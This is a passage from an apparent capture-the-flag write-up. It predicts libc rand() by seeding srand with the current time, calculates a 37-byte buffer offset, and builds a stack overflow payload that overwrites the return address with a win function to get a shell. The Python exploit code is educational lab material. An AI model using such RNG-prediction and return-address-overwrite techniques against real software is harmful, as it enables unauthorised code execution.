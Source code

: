 
## Exploit Development - Part 2: Calculating the Random Number

Now we will need to calculate the random number:

```python
# Generate the random number
libc_lib = ctypes.CDLL(libc.path)

# Get current time and seed
current_time = int(time.time())
libc_lib.srand(current_time + 8)  # +8 for differences between local and remote time
                                   # adjust as needed, 8 seconds worked for me

# Generate random number
random_number = libc_lib.rand()
print("Random number:", random_number)
```

## Exploit Development - Part 3: Finding the Buffer Offset

Before we construct our final payload, let's find the buffer offset so we will know how many bytes to send before overwriting the return address with the win function address.

![alt text](image-3.png)

As we can see, the buffer is at `rbp - 0x1d` which is 29 in decimal, so 29 bytes far from `rbp`. In order to reach RIP we need to write `29 + 8 = 37` bytes.

### Payload Construction

The payload will be constructed like this:
1. Write 5 bytes to fill the buffer
2. Write the random value (integer so 4 bytes)
3. Write another 28 bytes to get to RBP (`5 + 4 + 28 = 37` bytes)
4. Overwrite the return address with the address of win function

This is the final part of the exploit:

```python
# construct the payload
buffer_fill = b'a' * 5
overwrite_to_return = b'a' * 28
payload = buffer_fill + p32(random_number) + overwrite_to_return + p64(win_function_address)

p.recvline()
p.sendline(payload)

# get shell
p.interactive()
```
